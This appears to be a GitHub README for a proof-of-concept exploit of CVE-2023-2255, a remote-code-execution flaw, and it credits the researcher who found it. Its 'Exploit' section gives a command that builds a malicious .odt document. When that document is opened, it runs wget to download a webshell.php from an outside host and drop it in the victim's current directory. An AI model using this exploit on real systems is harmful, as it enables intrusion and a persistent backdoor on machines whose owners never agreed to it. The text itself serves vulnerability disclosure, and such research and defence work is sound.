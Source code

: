 # CVE-2023-2255

CVE-2023-2255 RCE & load of external ressources found by [@Icare1337](https://twitter.com/icare1337)

- https://nvd.nist.gov/vuln/detail/CVE-2023-2255

# Exploit

Just an example to drop a webshell in current directory.

```bash
python3 CVE-2023-2255.py --cmd 'wget https://raw.githubusercontent.com/elweth-sec/CVE-2023-2255/main/webshell.php' --output 'exploit.odt'
```
